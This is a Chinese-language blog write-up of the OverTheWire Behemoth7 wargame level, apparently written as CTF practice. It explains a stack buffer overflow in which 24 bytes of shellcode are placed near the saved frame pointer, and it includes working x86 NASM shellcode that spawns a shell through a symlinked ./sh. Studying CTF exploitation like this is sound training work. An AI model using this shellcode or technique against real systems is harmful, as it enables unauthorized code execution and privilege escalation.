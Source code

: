 ```yaml
---
title: Behemoth7
author: rk700
layout: post
redirect_from: /writeup/2014/07/06/behemoth7
tags:
  - OverTheWire
  - exploit
---
```

这道题稍微和之前不太一样，在main开始时先push ebp, 又push edi, 然后and esp 0xfffffff0, sub esp 230h。但ida这里没搞清楚，字符数组是在esp+24h处，但ida显示的是ebp+210h，明显不对，估计是因为又push edi的原因。所以直接看反汇编有时确实容易出错，这种情况下还是要直接看汇编。

首先是把环境变量都清空了，所以只能把shellcode放在argv里了。另外，会检查前512个字符是否包含非字母，应该可以写出只有字母的shellcode，但我没有用那种方法。也就是把shellcode放在紧挨着ebp前面的缝隙处。检查发现，shellcode最长只能有12+8+4=24byte；顶多再加一个byte,也就是返回地址的最低位，而且如果这么做的话，前面的要用NOP来填充了

另一方面，由于shellcode金挨着返回地址，我们还必须保护他，也就是要先把栈往上推。这样一来，之前一直用的那个版本就太长了，于是这里我让他执行./sh，然后把/bin/sh链接到当前目录下

shellcode所在的地址还是通过ebp的地址算出，再次提醒下要保持参数个数及长度都相同

汇编代码如下

{% highlight nasm %}
BITS 32

xor eax, eax
sub esp, 0x28 ;protect our code
push eax
mov edx, esp
push 0x68732f2e ;./sh
mov ebx, esp
push eax
push ebx
mov ecx, esp
mov al, 11
int 0x80
{% endhighlight %}